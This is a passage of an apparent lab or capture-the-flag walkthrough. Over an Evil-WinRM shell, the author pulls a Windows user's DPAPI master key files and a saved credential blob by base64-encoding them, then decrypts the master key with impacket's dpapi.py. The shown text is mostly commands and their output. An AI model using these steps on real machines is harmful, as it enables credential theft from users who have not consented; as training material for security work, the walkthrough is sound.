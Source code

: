   <pre style="
    background-color: #2b2b2e;
    padding: 12px;
    border-radius: 6px;
    overflow-x: auto;
    margin: 0;
  "><code style="color: #e0e0e0;">*Evil-WinRM* PS C:\Users\c.neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115> download C:\Users\c.neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115/99cf41a3-a552-4cf7-a8d7-aca2d6f7339b

Warning: Remember that in docker environment all local paths should be at /data and it must be mapped correctly as a volume on docker run command

Info: Downloading C:\Users\c.neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115\C:Usersc.neriAppDataRoamingMicrosoftProtectS-1-5-21-4024337825-2033394866-2055507597-1115/99cf41a3-a552-4cf7-a8d7-aca2d6f7339b to 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b

Error: Download failed. Check filenames or paths</code></pre>
</div>

**Let's try with base64**

```powershell
PS C:\temp> [Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\users\c.neri\appdata\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115\4dbf04d8-529b-4b4c-b4ae-8e875e4fe847'))

AgAAAAAAA...op6YwRfEighbU=

PS C:\temp> [Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\users\c.neri\appdata\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115\99cf41a3-a552-4cf7-a8d7-aca2d6f7339b'))

AgAAAA...qUkALQ=

PS C:\temp> [Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\users\c.neri\appdata\roaming\microsoft\credentials\C4BB96844A5C9DD45D5B6A9859252BA6'))

AQAAAKI...PMUzCyhkAA==
```
And base64 decode

```bash
echo "AgAAAAAA.../Hkop6YwRfEighbU=" | base64 -d >  4dbf04d8-529b-4b4c-b4ae-8e875e4fe847

echo "AgAAAAAAAAAAA...qUkALQ=" | base64 -d > 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b

echo "AQAAAKI...CyhkAA==" | base64 -d > C4BB96844A5C9DD45D5B6A9859252BA6
```
Ok perfect, now i’ll use **impacket-dpapi**

```bash
dpapi.py masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -password REDACTED -sid S-1-5-21-4024337825-2033394866-2055507597-1115
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xf8901b212...1ecd44e525a
```
```bash
```